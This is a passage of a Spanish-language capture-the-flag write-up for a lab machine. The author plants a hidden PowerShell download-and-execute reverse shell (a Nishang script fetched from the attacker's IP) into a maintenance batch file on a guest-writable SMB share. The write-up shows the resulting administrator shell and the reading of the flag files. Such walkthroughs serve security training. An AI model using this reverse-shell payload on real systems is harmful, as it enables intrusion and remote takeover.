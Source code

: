 Modificamos el script **mantenimiento.bat** para agregar nuestra IP y el nombre del script de **Nishang**:
```bash
:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://Tu_IP/revShell.ps1')"
```

Subimos el script **mantenimiento.bat** modificado al **SMB**:
```bash
smbmap -H 192.168.1.210 -u guest --upload mantenimiento.bat Compartido/Proyectos/Quokka/Código/mantenimiento.bat --no-banner
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)
[+] Starting upload: mantenimiento.bat (356 bytes)
[+] Upload complete
[*] Closed 1 connections
```

Y espera un minuto, luego, revisa la **netcat**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.210] 51014
.
PS C:\Windows\system32> whoami
win-vru3gg3dplj\administrador
```
Excelente, volvimos a ganar acceso.

Ya solo buscamos las flags:
```batch
PS C:\Windows\system32> cd C:\Users\0mar\Desktop
PS C:\Users\0mar\Desktop> dir

    Directorio: C:\Users\0mar\Desktop

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       27/10/2024     16:16             25 user.txt                                                              

PS C:\Users\0mar\Desktop> type user.txt
...
PS C:\Users\0mar\Desktop> cd C:\Users\Administrador\Desktop
PS C:\Users\Administrador\Desktop> dir

    Directorio: C:\Users\Administrador\Desktop

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       27/10/2024     16:16             30 admin.txt                                                             

PS C:\Users\Administrador\Desktop> type admin.txt
...
```
Con esto terminamos la máquina.
